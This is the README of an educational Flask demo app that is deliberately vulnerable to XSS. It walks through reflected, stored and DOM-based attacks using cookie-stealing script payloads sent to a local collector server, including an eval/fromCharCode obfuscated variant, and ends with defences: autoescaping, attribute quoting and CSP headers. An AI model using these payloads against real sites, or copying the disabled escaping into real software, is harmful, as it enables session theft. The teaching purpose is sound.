 # XSS-Demo (Extended)
Minimal, flask-powered python web app to demonstrate reflected and stored XSS attacks.
Less than 30 lines of Python + 40 lines HTML template.

![XSS Demo Screenshot](xss-demo-screenshot.png "XSS Demo Screenshot")

# Disclaimer

The current version is vulnerable to XSS.
This is meant for educational purposed only, please do not use it to attack websites.

# Quickstart

* Clone this repository.
* Create a [virtual environment](https://virtualenvwrapper.readthedocs.io/) (if you don't want to install `flask` in your global python environment) and 
  activate it.
* `pip install flask` to install flask in the virtual environment
* Run `flask run` in the vulnerable website folder
* Open [127.0.0.1:5000](http://127.0.0.1:5000/) in your webbrowser and have fun with XSS

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.


# Demostrations of XSS
## Things to note BEFORE trying the demostration
* Go to [127.0.0.1:5000/cookie](http://127.0.0.1:5000/cookie) to create set a cookie for the main website
* Run `python app.py` in the malicious website folder to run the malicious server to collect the cookies

To delete the cookie:
* Go to inspect element
* Go to Application Tab
* Click on cookies
* Right click on the entry that you want to delete

## Demostration for reflected XSS
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the query blank
* Notice that the code is reflected inside the addressbar as a query.
* When the user clicks on the link containing the address, their cookies from the vulnerable website can be stolen

## Demostration for Stored XSS
### WARNING, this will spam ping the server as the page is loading
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the comment blank
* Notice that the code is stored within the website
* When the user access the website, their cookies will automatically stolen until the comment is removed

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.

## Demostration for DOM-Based XSS
* Key in `http://localhost:5000/?num=alert(123)` into the address bar
* An alert for 123 will appear as an alert

In order to do something similar to the above, we cannot directly, insert `window.location=document.location='http://127.0.0.1:1000/?c='+document.cookie;` into the address bar after the query as some characters might be escaped. The javascript in the DOM only has access to the raw escaped query string and not the unescaped string. Thus, another method is required.

In this case the `toString().constructor.fromCharCode` will be our best friend
* Make sure both servers are up
* Key in `eval(toString().constructor.fromCharCode(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,61,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,39,104,116,116,112,58,47,47,49,50,55,46,48,46,48,46,49,58,49,48,48,48,47,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59))` after the `num?` query.

What does it do?
* `toString().constructor.fromCharCode(...)` converts the character code for the javascript into a javascript string
* `eval` will evalucate the string. The string above corresponds to `document.location='http://127.0.0.1:1000/?c='+document.cookie;`
* The evaluator inside the DOM will evaluate the code as `document.location='http://127.0.0.1:1000/?c='+document.cookie;` and execute the reflected attack

You can make use of the XSSQueryFormer inside the folder to experiment around with the different javascript codes to be inserted as the payload

Usage:
* `python XSSQueryFormer.py "{Javascript Code here}"` to convert your code to javascript
* `python XSSQueryFormer.py -h` to show help message

# Protection mechanisms

Of course you should never deactivate autoescaping in jinja/flask, so you should never have 
`{% autoescape false %}` in your production templates. 
<br>
This way you will always get the 
[standard HTML context filtering](https://flask.palletsprojects.com/en/1.1.x/templating/#controlling-autoescaping)
for variables in your templates.

The tooltip attack mentioned above can of course be avoided by using quotes correctly on 
[line 33 ](https://github.com/jh123x/xss-demo/blob/master/templates/index.html#L33):
```html
      <div title="{{ comment }}">
```

You can also test using 
[Content Security Policy headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) to 
disallow unsafe inline javascript by replacing 
[`app.py` line 16-18](https://github.com/jh123x/xss-demo/blob/master/app.py#L16-L18) with:

```python
    from flask import make_response
    r = make_response(render_template('index.html',
                      comments=comments,
                      search_query=search_query))
    r.headers.set('Content-Security-Policy', "script-src 'none'")
    return r
```


# Acknowledgements
This was forked from [bgres/xss-demo](https://github.com/bgres/xss-demo) 